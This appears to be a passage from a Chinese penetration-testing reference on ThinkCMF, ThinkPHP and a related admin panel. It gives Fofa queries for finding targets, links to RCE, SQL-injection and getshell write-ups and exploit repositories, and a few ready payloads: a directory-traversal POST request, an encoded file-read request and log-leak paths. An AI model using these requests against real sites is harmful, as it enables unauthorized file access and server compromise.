 - POC | Payload | exp
    ```
    1、目录遍历注意 POST 数据包 rules 参数值需要 URL 编码
    POST /admin.html?s=admin/api.Update/node
    rules=%5B%22.%2F%22%5D

    2、文件读取,后面那一串是 UTF8 字符串加密后的结果。计算方式在 Update.php 中的加密函数。
    /admin.html?s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34
    ```

---

### ThinkCMF

> 官网: https://www.thinkcmf.com/

> Fofa: title="ThinkCMF"

**ThinkCMF 任意内容包含漏洞**
- 相关文章
    - [ThinkCMF 任意内容包含getshell漏洞](https://www.hacking8.com/bug-web/ThinkCMF/ThinkCMF-%E6%A1%86%E6%9E%B6%E4%B8%8A%E7%9A%84%E4%BB%BB%E6%84%8F%E5%86%85%E5%AE%B9%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E.html)

- POC | Payload | exp
    - [jas502n/ThinkCMF_getshell](https://github.com/jas502n/ThinkCMF_getshell)

---

### ThinkPHP

> 官网: http://www.thinkphp.cn/

#### <5

**相关文章**
- [thinkphp一些版本的通杀漏洞payload](http://www.moonsec.com/post-853.html)
- [代码审计 | ThinkPHP3.x、5.x框架任意文件包含](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=39586)
- [Thinkphp2.1爆出重大安全漏洞](https://www.cnblogs.com/milantgh/p/3639178.html)
- [ThinkPHP3.2.3框架实现安全数据库操作分析](https://xz.aliyun.com/t/79)
- [ThinkPHP-漏洞分析集合 ](https://xz.aliyun.com/t/2812)
- [ThinkPHP3.2 框架sql注入漏洞分析(2018-08-23)](https://xz.aliyun.com/t/2629)
- [Thinkphp框架 3.2.x sql注入漏洞分析](https://bbs.ichunqiu.com/thread-38901-1-12.html)
- [【漏洞通报】ThinkPHP3.2.x RCE漏洞通报](https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ)

**日志泄露**
```bash
/Application/Runtime/Logs/Home/16_09_06.log # 其中 Application 可能会变，比如 App
/Runtime/Logs/Home/16_09_06.log             # 年份_月份_日期
/Runtime/Logs/User/16_09_06.log             # 年份_月份_日期
```
- [whirlwind110/tphack](https://github.com/whirlwind110/tphack) - Thinkphp3/5 Log 文件泄漏利用工具

#### 5

**相关文章**
- [ThinkPHP 5.x (v5.0.23及v5.1.31以下版本) 远程命令执行漏洞利用 (GetShell) ](https://www.vulnspy.com/cn-thinkphp-5.x-rce/)
- [代码审计 | ThinkPHP3.x、5.x框架任意文件包含](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=39586)
- [ThinkPHP 5.0.x、5.1.x、5.2.x 全版本远程命令执行漏洞](https://blog.csdn.net/csacs/article/details/86668057)
- [ThinkPHP v5.1.22曝出SQL注入漏洞](https://nosec.org/home/detail/1821.html)
- [ThinkPHP-漏洞分析集合 ](https://xz.aliyun.com/t/2812)
- [ThinkPHP 5.1.x SQL注入漏洞分析](https://www.freebuf.com/vuls/185420.html)
- [ThinkPHP框架 < 5.0.16 sql注入漏洞分析](https://bbs.ichunqiu.com/thread-38284-1-13.html)
- [ThinkPHP 5.x 远程命令执行漏洞利用过程](https://laucyun.com/a9142c328b103cd86a3715bd5073c4be.html)
- [ThinkPHP漏洞总结](http://zone.secevery.com/article/1165)
- [记一次简单的Thinkphp 5.x绕过姿势](https://mp.weixin.qq.com/s/sIs0Tf6MAfXsBPvsNFxtWw)
